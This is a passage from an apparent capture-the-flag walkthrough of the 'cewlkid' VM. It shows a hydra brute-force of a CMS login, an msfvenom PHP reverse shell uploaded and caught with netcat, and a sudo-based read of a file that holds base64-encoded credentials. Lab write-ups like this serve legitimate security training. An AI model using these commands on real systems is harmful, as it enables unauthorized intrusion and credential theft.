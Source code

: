 Lets now use this significantly smaller wordlist with `hydra` to try to crack admin's password.

```
hydra -s 8080 -l admin -P cewlWordlist.txt 192.168.1.7 http-post-form "/index.php?SMExt=SMLogin:SMInputSMLoginUsername=admin&SMInputSMLoginPassword=^PASS^&SMOptionListSMLoginLanguages%5B%5D=en&SMInputSMSearchValue8477222=&SMPostBackControl=SMLinkButtonSMLoginSubmit&SMRequestToken=995e707f38023c69c9067fc8e54726e3:Wrong username or password:H=Cookie: SMSESSION6b631023323ea9ab=o7n82s6fchj4lsl45424s2i9ca"
```

>We must build the above hydra command piece by piece inspecting, a failed login request

This will give us a pasword for admin: Letraset

We need to loigin with this and see if can can inject any code to land a shell in the remote host.

Browsing around, we come across a `files` page inside content menu. This seems quite interesting as it enables uploading files to the webdir.

Lets create a php reverse shell with `msfvenom`:

```
msfvenom -p php/reverse_php LHOST=192.168.1.10 LPORT=6666 -f raw -o attack.php
```

now lets start a netcat listener in another terminal:

```
nc -lnvp 6666
```

Lets upload the file now and try to execute it, by navigating to `http://192.168.1.7:8080/files/images/attack.php`The page hangs and our `netcat` listener has a shell in the system and `python3` to break out of the restricted shell:

>You can also use the reverse shell uploaded already to the VM, provided that you edit it first.

```
Connection received on 192.168.1.7 51886
Linux cewlkid 5.4.0-47-generic #51-Ubuntu SMP Fri Sep 4 19:50:52 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:55:06 up  4:25,  0 users,  load average: 0.00, 0.05, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c "import pty; pty.spawn('bin/bash')"
www-data@cewlkid:/$ 
```

Looking into the `home` dir, we see that we can't access any user's dir.
Running `sudo -l` though, returns that www-data can execute `cat` as user ipsum.

We find a interesting ... dir in `/var/www/example.com/html/...`, which contains a file owned by ipsum. Lets read it:

```
www-data@cewlkid:~/example.com/html/...$ ls -lart
ls -lart
total 12
drwxr-xr-x 10 www-data www-data 4096 Sep  9 00:20 ..
-rwx------  1 ipsum    ipsum      66 Sep  9 00:28 nothing_to_see_here
drwxr-xr-x  2 root     root     4096 Sep  9 00:28 .
www-data@cewlkid:~/example.com/html/...$ sudo -u ipsum cat nothing_to_see_here
<com/html/...$ sudo -u ipsum cat nothing_to_see_here
aXBzdW0gOiBTcGVha1Blb3BsZTIyIQo=
bG9yZW0gOiBQZW9wbGVTcGVhazQ0IQo=
www-data@cewlkid:~/example.com/html/...$ 
```
